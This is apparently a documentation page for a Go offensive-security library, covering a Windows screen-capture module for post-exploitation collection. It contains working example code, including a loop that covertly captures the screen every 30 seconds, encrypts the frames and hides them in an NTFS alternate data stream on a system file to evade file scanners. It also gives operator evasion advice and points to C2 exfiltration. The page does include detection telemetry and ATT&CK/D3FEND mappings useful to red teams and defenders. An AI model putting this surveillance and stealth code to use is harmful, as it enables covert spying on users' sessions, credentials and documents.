

# Screen capture

[← collection index](README.md) · [docs/index](../../index.md)

## TL;DR

`Capture()` returns the entire virtual desktop as PNG bytes using GDI
`BitBlt`. For multi-monitor targets, `DisplayCount` + `CaptureDisplay(i)`
enumerate and capture individual screens. `CaptureRect` grabs any
rectangular region. All three variants return `[]byte` — send directly to
a C2 channel or stash in an ADS.

## Primer

Screen capture gives the operator a visual snapshot of the user's session:
open documents, browser windows, RDP sessions, and credential dialogs all
appear in the PNG. It is the fastest way to understand what the target is
doing without generating process or file activity.

The implementation uses the GDI device-context model: `GetDC(0)` acquires
a handle to the screen device context, `CreateCompatibleDC` + `CreateCompatibleBitmap`
build an off-screen buffer, `BitBlt(SRCCOPY)` copies the screen pixels into
that buffer, and `GetDIBits` extracts the raw BGRA pixel data. A final
in-place channel swap (BGRA → RGBA) feeds Go's `image/png` encoder, which
produces the final `[]byte`. All GDI handles are cleaned up before return.

Multi-monitor support uses `EnumDisplayMonitors` to collect each monitor's
bounding rectangle in virtual-desktop coordinates, then performs a
`CaptureRect` on each rectangle. The rectangles may overlap (mirrored
displays) or be non-contiguous (extended desktop) — coordinates are in
virtual-desktop space and handled transparently by GDI.

## How It Works



For `CaptureDisplay(i)`:

1. `enumDisplays()` calls `EnumDisplayMonitors` to build `[]image.Rectangle`.
2. Index bounds are checked against the slice; `ErrDisplayIndex` on overflow.
3. `CaptureRect(r.Min.X, r.Min.Y, r.Dx(), r.Dy())` is called with the
   monitor's virtual-desktop rectangle.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/collection/screenshot`](https://pkg.go.dev/github.com/oioio-space/maldev/collection/screenshot) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple

```go
import (
    "os"

    "github.com/oioio-space/maldev/collection/screenshot"
)

png, err := screenshot.Capture()
if err != nil {
    panic(err)
}
_ = os.WriteFile("screen.png", png, 0o600)
```

### Composed (all monitors, timestamped files)

```go
import (
    "fmt"
    "os"
    "time"

    "github.com/oioio-space/maldev/collection/screenshot"
)

func captureAll(outDir string) {
    ts := time.Now().Format("150405")
    count := screenshot.DisplayCount()
    for i := 0; i < count; i++ {
        png, err := screenshot.CaptureDisplay(i)
        if err != nil {
            continue
        }
        name := fmt.Sprintf("%s/%s_mon%d.png", outDir, ts, i)
        _ = os.WriteFile(name, png, 0o600)
    }
}
```

### Advanced (interval capture + encrypt + ADS stash)

Capture every 30 s, encrypt each frame with AES-GCM, and append to an NTFS
ADS on a pre-existing system file — no new files on disk, content opaque to
file scanners.

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/cleanup/ads"
    "github.com/oioio-space/maldev/collection/screenshot"
    "github.com/oioio-space/maldev/crypto"
)

const (
    adsHost   = `C:\ProgramData\Microsoft\Windows\Caches\thumbs.db`
    adsStream = "frames"
)

func main() {
    key, _ := crypto.NewAESKey()
    ctx := context.Background()
    tick := time.NewTicker(30 * time.Second)
    defer tick.Stop()

    for {
        select {
        case <-ctx.Done():
            return
        case <-tick.C:
            png, err := screenshot.Capture()
            if err != nil {
                continue
            }
            blob, _ := crypto.EncryptAESGCM(key, png)
            existing, _ := ads.Read(adsHost, adsStream)
            _ = ads.Write(adsHost, adsStream, append(existing, blob...))
        }
    }
}
```

See `ExampleCapture` and `ExampleCaptureDisplay` in
[`screenshot_example_test.go`](../../../collection/screenshot/screenshot_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| `GetDC(0)` + `BitBlt(SRCCOPY)` in a non-GUI process | Behavioural heuristics; screen-capturing from a headless service is anomalous |
| High-frequency `BitBlt` calls | API-frequency telemetry; video-capture rate (>1/s) from a non-known app |
| Large heap allocation for pixel buffer | Memory telemetry; `w×h×4` bytes (e.g., 8 MB for 1920×1080) allocated by non-UI process |
| PNG files or large binary blobs written to disk | File-write telemetry — mitigated by ADS stashing and encryption |
| `EnumDisplayMonitors` call | Low signal alone; combined with `BitBlt` adds confidence |

**D3FEND counters:**

- [D3-PA](https://d3fend.mitre.org/technique/d3f:ProcessAnalysis/) —
  behavioural API-usage analysis.

**Hardening for the operator:** limit capture frequency (1 per 30 s or less
blends with screensaver / remote-desktop activity); embed in a process that
legitimately renders graphics; send captures over an existing C2 channel
rather than writing to disk.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1113](https://attack.mitre.org/techniques/T1113/) | Screen Capture | full — primary, rect, per-monitor | D3-PA |

## Limitations

- **Windows only.** GDI APIs are not available on Linux/macOS; build tag
  `windows` is required.
- **Requires a desktop session.** `GetDC(0)` returns NULL in Session 0
  (SYSTEM service); the call must run in an interactive or remote-desktop
  session.
- **DWM exclusion.** Windows 10/11 DWM may exclude DRM-protected content
  (Netflix, Widevine) from `BitBlt` results — protected windows appear black.
- **No hardware cursor.** The captured PNG does not include the software
  cursor overlay; the mouse pointer position is not visible in the output.
- **Virtual desktop coordinates.** Multi-monitor setups with non-standard
  DPI scaling may produce coordinates that differ from what the user sees
  in display settings — use `DisplayBounds` to verify before `CaptureRect`.

## See also

- [Keylogging](keylogging.md) — text complement to visual capture.
- [Clipboard capture](clipboard.md) — capture credential pastes.
- [`crypto`](../crypto/README.md) — encrypt PNG bytes before storage.
- [`cleanup/ads`](../cleanup/README.md) — hide frames in NTFS ADS.
- [`c2/transport`](../c2/README.md) — exfiltrate PNG bytes over the C2
  channel.
- [Operator path](../../by-role/operator.md) — post-exploitation collection
  chains.
- [Detection eng path](../../by-role/detection-eng.md) — GDI-based collection
  detection telemetry.
